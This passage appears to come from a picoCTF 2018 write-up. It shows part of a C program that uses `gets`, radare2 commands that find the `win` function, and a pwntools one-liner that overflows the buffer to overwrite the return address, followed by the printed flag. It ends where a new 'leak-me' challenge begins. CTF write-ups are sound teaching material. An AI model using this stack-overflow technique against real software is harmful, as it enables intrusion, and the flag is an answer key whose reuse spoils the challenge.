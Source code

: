 ```c
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

As you can see, we want to call the `win` function, and there's a clear buffer overflow with the classic `gets` call. The `gets` call is dangerous because it copies any number of bytes you input which will overwrite memory that you otherwise shouldn't be able to write to.

In this case, we want to overwrite the return address of the function which is located 12 bytes below the buffer. Here are the commands that overwrites the original return address with the address of the `win` function:

```
$ r2 ./vuln
[0x080484d0]> aaaa
[0x080484d0]> afl
...
0x080485cb    3 100          sym.win
...
[0x080484d0]> q
$ python -c "from pwn import *; print 'a'*(32+12)+p32(0x080485cb)" | ./vuln
Please enter your string:
Okay, time to return... Fingers Crossed... Jumping to 0x80485cb
picoCTF{addr3ss3s_ar3_3asy56a7b196}Segmentation fault
```

flag: `picoCTF{addr3ss3s_ar3_3asy56a7b196}`

# leak-me

## Problem

Can you authenticate to this [service](/blog/picoctf-2018-writeup/Binary Exploitation/leak-me/auth) and get the flag? Connect with `nc 2018shell2.picoctf.com 57659`. [Source](/blog/picoctf-2018-writeup/Binary Exploitation/leak-me/auth.c).

## Solution

